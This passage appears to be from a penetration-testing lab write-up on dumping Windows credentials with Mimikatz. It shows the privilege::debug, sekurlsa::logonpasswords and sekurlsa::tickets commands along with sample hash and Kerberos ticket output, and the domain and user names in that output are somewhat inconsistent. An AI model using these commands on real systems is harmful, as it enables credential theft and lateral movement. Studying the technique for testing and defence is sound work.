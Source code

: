 we will use Mimikatz to extract hashes.

Since the Fcastle domain user is a local administrator, we are able to launch a command prompt with elevated privileges. From this command prompt, we will run mimikatz and enter **privilege::debug** to engage the **SeDebugPrivlege** privilege, which will allow us to interact with a process owned by another account. Finally, we'll run **sekurlsa::logonpasswords** to dump the credentials of all logged-on users using the **Sekurlsa** module. This should dump hashes for all users logged on to the current workstation or server, including remote logins like Remote Desktop sessions.


```c
C:\> mimikatz.exe
mimikatz # privilege::debug
Privilege '20' OK
mimikatz # sekurlsa::logonpasswords
Authentication Id : 0 ; 291668 (00000000:00047354)
Session : Interactive from 1
User Name : Offsec
Domain : CORP
Logon Server : DC01
Logon Time : 08/02/2018 14.23.26
SID : S-1-5-21-1602875587-2787523311-2599479668-1103
msv :
[00000003] Primary
\* Username : fcastle
\* Domain : MARVEL
\* NTLM : e2b475c11da2a0748290d87aa966c327
\* SHA1 : 8c77f430e4ab8acb10ead387d64011c76400d26e
\* DPAPI : 162d313bede93b0a2e72a030ec9210f0
tspkg :
wdigest :
\* Username : fcastle
\* Domain : MARVEL
\* Password : (null)
kerberos :
\* Username : fcastle
\* Domain : MARVEL.COM
\* Password : (null)
```
‌
Also, we will use Mimikatz to exploit Kerberos authentication by abusing TGT and service tickets. We know that Kerberos TGT and service tickets for users currently logged on to the local machine are stored for future use. These tickets are also stored in LSASS and we can use Mimikatz to interact with and retrieve our own tickets and the tickets of other local users.

```c
mimikatz # sekurlsa::tickets
Authentication Id : 0 ; 291668 (00000000:00047354)
Session : Interactive from 1
User Name : fcasle
Domain : MARVEL
Logon Server : DC01
Logon Time : 08/02/2018 14.23.26
SID : S-1-5-21-1602875587-2787523311-2599479668-1103
* Username : fcastle
* Domain : MARVEL.COM
* Password : (null)
Group 0 - Ticket Granting Service
[00000000]
Start/End/MaxRenew: 09/02/2018 14.41.47 ; 10/02/2018 00.41.47 ; 16/02/2018 14.41.47
Service Name (02) : cifs ; dc01 ; @ CORP.COM
Target Name (02) : cifs ; dc01 ; @ CORP.COM
Client Name (01) : Offsec ; @ CORP.COM
Flags 40a50000 : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ;
Session Key : 0x00000012 - aes256_hmac
d062a1b8c909544a7130652fd4bae4c04833c3324aa2eb1d051816a7090a0718
```